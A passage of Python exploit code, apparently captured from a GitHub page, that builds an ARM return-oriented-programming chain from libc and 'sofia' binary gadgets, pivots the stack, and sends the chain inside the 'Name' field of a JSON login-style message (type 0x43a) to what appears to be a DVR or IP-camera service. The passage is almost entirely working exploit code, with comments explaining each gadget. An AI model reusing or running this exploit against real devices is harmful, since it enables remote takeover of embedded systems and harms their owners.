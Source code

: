 ```
    # libcpp: 0006e3b0 add r2,r3,#0x34 ; add r3,r3,#0x20 ; str r2,[r4,#0xc] ; 
    #       str r3,[r4,#0x8] ; add sp,sp,#0x8 ; ldmia sp!,{r4,r5,r6,r7,r8,pc}
    rop_chain += p32(0x42424242) # padding
    rop_chain += p32(0x42424242) # padding
    rop_chain += p32(0x41414141) # r4
    rop_chain += p32(xor_key) # r5 - goes into r1 as the xor key
    rop_chain += p32(libc_base_addr_int + 0x17604) # r6 - for a later gadget
    rop_chain += p32(0x41414141) # r7
    rop_chain += p32(0xfffffffc) # r8 - second part of http buffer address (basically a -4 due to overflow)
    rop_chain += p32(libc_base_addr_int + 0x4d564) # pc

    # now put the key back into the correct place (r4), put encoded buffer address into r3, r6 set earlier on (libstdc++.so
    # libc : 0005d564 cpy r1,r5 ; ldmia sp!,{r3,r4,r5,pc}
    rop_chain += p32(http_buffer_ptr_xor) # r3 - to be xor'ed
    rop_chain += p32(0x41414141) # r4
    rop_chain += p32(0x41414141) # r5
    rop_chain += p32(libc_base_addr_int + 0x4ca14) # pc

    # libc: 0005ca14 eor r3,r3,r1 ; subs r0,r2,r0 ; sbc r1,r3,r1 ; bx lr
    # now we have decoded http buffer address in r3 and decoded sofia gadget address in r2

    # libc: 00032104 ldr r1,[r3,#0x0] ; blx r6
    # now the actual address of the http buffer is in r1, and the sofia gadget is in r2

    # libc: 00027604 cpy r0,r1; ldmia sp!,{r4,r5,pc}
    rop_chain += p32(0x41414141) # r4
    rop_chain += p32(0x41414141) # r5
    rop_chain += p32(libc_base_addr_int + 0x3cc50) # pc

    # libc: 0004cc50 add r0,r0,#0x20 ; ldmia sp!,{r4,pc}
    rop_chain += p32(0x41414141) # r4
    rop_chain += p32(libc_base_addr_int + 0x16cd8) # pc

    # libc: 00026cd8 ldmia sp!,{r3,pc}
    # get control of r3 back
    rop_chain += p32(libc_base_addr_int + 0x50d08) # r3 - for later gadget
    rop_chain += p32(libc_base_addr_int + 0x3e8d4) # pc

    # libc: 0004e8d4 blx r2

    # sofia: 003f43a8 add r11,r0,r8 ; cpy r0,r6 ; blx r3 <- sofia gadget

    # libc: 00060d08 sub sp,r11,#0x4 ; ldmia sp!,{r11,pc} <- stack pivot completed

    rop_chain += b"."    # need the dot for the overflow

    # Create the payload directly in bytes
    payload = b'{"SessionID":"0x%08x","Name":"' % session_id
    payload += rop_chain
    payload += b'"}'

    msg_type = 0x43a
    packet = build_packet(msg_type, seq_number, payload)
    
    try:
        response = send_msg_and_get_response(sock, msg_type, packet)

        header_info, payload, session_id = parse_response(response)

        return seq_number, payload
    except Exception as e:
```